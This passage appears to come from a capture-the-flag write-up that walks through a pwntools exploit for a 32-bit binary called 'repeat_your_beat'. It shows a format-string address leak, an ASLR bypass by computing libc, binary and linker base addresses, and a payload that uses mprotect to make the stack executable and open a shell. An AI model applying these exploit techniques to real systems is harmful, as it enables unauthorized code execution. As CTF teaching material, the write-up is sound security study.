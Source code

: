 ```python
payload += p32(stack_end & -0x1000) # addr for the mprotect to make executable. Need to have a page-aligned value
payload += p32(0x1000) # length for mprotect to change permission
payload += p32(7) # permission to be set
# Sending the payload
p.sendline(payload)
# Receving the printf line with lot of spaces for clean output
p.recv()
# Getting the shell
p.interactive()
p.close()
```
So, where did we get all this from?

Let's start at the top:
```python
from pwn import *

def start():
    global p, libc
    if args.REMOTE:
        p = remote('127.0.0.1', 1337)
        #p = remote('euan-ctf-lb-1666742192.eu-west-2.elb.amazonaws.com', 1337)
        libc = ELF('/lib/i386-linux-gnu/libc.so.6')
    else:
        p = process(elf.path)
        libc = elf.libc

# Initialization
elf = ELF('./repeat_your_beat')
ld = ELF('/lib/ld-linux.so.2')
...
```
So here, we're essentially setting up the environment, importing in the libc used remotely (we have to download it), setting the elf and ld version. We then start the program and receive the line (remember that there is a `\t` in the `puts` argument, which gives us the newline when printing it to stdout).

```python
...
p.sendline("%2$x:%3$x:%83$x")
libc_leak, binary_leak, stack_leak = [int(x, 16) for x in p.recvline().decode().split(':')]
...
```
When we did our fuzz, it showed that `%2$x` gave us our libc leak. Doing some of our own fuzzing, we can find that `%3$x` will give us a leak to the binary (either in the code or text segment). Then the `%83$x` gives us an address on the stack.
We then print out the addresses, for our own sanity

```python
...
# Bypassing ASLR using Offset2lib
libc.address = libc_leak - libc.symbols['_IO_2_1_stdin_']
elf.address = binary_leak - (elf.sym.main + 26) # Binary leak gives address of <main + 26>
# Using offset2libc on ld base address
ld_base_from_libc_base_offset = 0x211000
ld.address = libc.address + ld_base_from_libc_base_offset
...
```
Here is our bypassing of ASLR. We first get the libc leak, and using the fuzz earlier, we identified that the address leak was `_IO_2_1_stdin_`. Therefore, to get the base of libc, we have to subtract our leak from the offset that `_IO_2_1_stdin_` is - `libc.symbols` gives us a dictionary with the key as the libc function, and the value as the offset.
